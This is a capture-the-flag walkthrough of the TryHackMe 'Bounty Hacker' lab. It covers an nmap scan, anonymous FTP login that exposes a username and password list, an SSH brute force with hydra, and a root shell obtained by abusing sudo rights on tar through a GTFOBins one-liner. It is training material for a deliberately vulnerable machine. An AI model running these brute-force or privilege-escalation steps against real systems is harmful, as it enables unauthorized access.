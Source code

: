 ```yaml
---
clayout: ctf
title: Bounty Hacker
type: TryHackMe
date: 2025-05-01
level: Easy
icon: /ctf/tryhackme/bounty-hacker/icon-room.png
image: /ctf/tryhackme/bounty-hacker/icon-room.png
description: You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!
ctf-link: https://tryhackme.com/room/cowboyhacker
---
```


# Challenge Description

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

# Challenge Overview

The objective of this challenge is to perform a full penetration test on the target machine `10.10.252.60`, identifying potential entry points, exploiting vulnerabilities, and ultimately achieving root access. The target appears to be a fictional system themed around bounty hunters, hinting at potential usernames or passwords.

# Enumeration

## Nmap Scan

We begin with a comprehensive Nmap scan to identify open ports and running services on the target:

```bash
nmap -sC -sV -v -A -oN nmap.txt 10.10.252.60
```

**Scan Results:**

```bash
Not shown: 982 filtered tcp ports (no-response)
PORT    STATE  SERVICE VERSION
21/tcp  open   tcpwrapped
22/tcp  open   tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp  open   tcpwrapped
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

**Summary of Findings:**

- **Port 21 (FTP)** – Open, potentially misconfigured
- **Port 22 (SSH)** – Open
- **Port 80 (HTTP)** – Open, running Apache 2.4.18 (Ubuntu)

## FTP Enumeration

Accessing the FTP service using an anonymous login was successful. Two files were available for download:

**Downloaded Files:**

- `task.txt`:

  ```text
  1.) Protect Vicious.
  2.) Plan for Red Eye pickup on the moon.

  -lin
  ```

- `locks.txt` – A list of potential passwords:

  ```text
  rEddrAGON
  ReDdr4g0nSynd!cat3
  Dr@gOn$yn9icat3
  R3DDr46ONSYndIC@Te
  ReddRA60N
  R3dDrag0nSynd1c4te
  ...
  ```

The note signed by `lin` hints at a possible username for SSH access.

## SSH Brute-Force Attack

Using the username `lin` identified in `task.txt`, and the password list from `locks.txt`, we performed a brute-force attack with `hydra`:

![SSH Hydra](/ctf/tryhackme/bounty-hacker/ssh.png)

Once valid credentials were discovered, we successfully connected via SSH and retrieved the user flag:

![SSH Login](/ctf/tryhackme/bounty-hacker/ssh-login.png)

# Privilege Escalation

After gaining shell access as the `lin` user, we checked for sudo permissions:

```bash
sudo -l
```

**Output:**

```bash
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

The user is permitted to execute the `tar` command with root privileges. According to [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo), this can be leveraged to escalate privileges:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This command spawns a root shell, allowing us to read the root flag:

![Tar Exploit](/ctf/tryhackme/bounty-hacker/tar.png)